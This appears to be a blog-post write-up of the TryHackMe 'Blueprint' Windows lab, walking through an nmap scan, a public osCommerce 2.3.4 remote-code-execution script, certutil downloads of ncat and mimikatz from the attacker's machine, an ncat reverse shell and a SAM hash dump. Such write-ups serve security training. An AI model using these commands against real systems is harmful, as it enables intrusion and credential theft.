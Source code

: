 ```yaml
---
layout: post
title: Blueprint
date: 2023-02-13 12:00 +0700
categories: [THM, easy]
---
```


### Introduction

[Blueprint] is an easy Windows CTF machine on TryHackMe.
I completed the machine without using metasploit, but you can use It to completed too.

![blueprint](https://tryhackme-images.s3.amazonaws.com/room-icons/90243c256ba1d4eb403bc206e376f238.jpeg)



---

Let's start scaning the machine with nmap.

```sh
nmap -sSV -p- -open --min-rate 5000 <IP> -oN <outputfile.txt>
```

We can see like is normal in Windows machines to have a lot of ports open.

![Scan](/images/THM/blueprint/Captura.PNG)

This time we are going to focus on the web because we cannot see the SMB service as a guest.

![Web](/images/THM/blueprint/Captura2.PNG)

![exploit search](/images/THM/blueprint/Captura3.PNG)

```sh
python3 osCommerce2_3_4RCE.py http://<IP>:8080/osCommerce2_3_4/catalog/
```

![exploit execution](/images/THM/blueprint/Captura4.PNG)

```sh
certutil -urlcache -f http//<OUR IP>/<nc or ncat binary> <binary same name>
```

![ncat download](/images/THM/blueprint/Captura6.PNG)

```sh
certutil -urlcache -f http//<OUR IP>/mimikatz.exe mimikatz.exe
```

![mimikatz download](/images/THM/blueprint/Captura7.PNG)

```sh
nc.exe/ncat.exe <OUR IP> <PORT> -e cmd
```

![revshell](/images/THM/blueprint/Captura8.PNG)

```sh
mimikatz.exe
```

![mimikatz](/images/THM/blueprint/Captura9.PNG)

```sh
lsadump::sam
```

![Hashdump](/images/THM/blueprint/Captura10.PNG)

![cracked password](/images/THM/blueprint/Captura11.PNG)

```sh
dir C:\Users\Administrator\Desktop
type C:\Users\Administrator\Desktop\root.txt.txt
```

![root flag](/images/THM/blueprint/Captura5.PNG)

 [blueprint]: https://tryhackme.com/room/easyctf
 [crackstation]:https://crackstation.net/
 [exploit]:https://github.com/nobodyatall648/osCommerce-2.3.4-Remote-Command-Execution
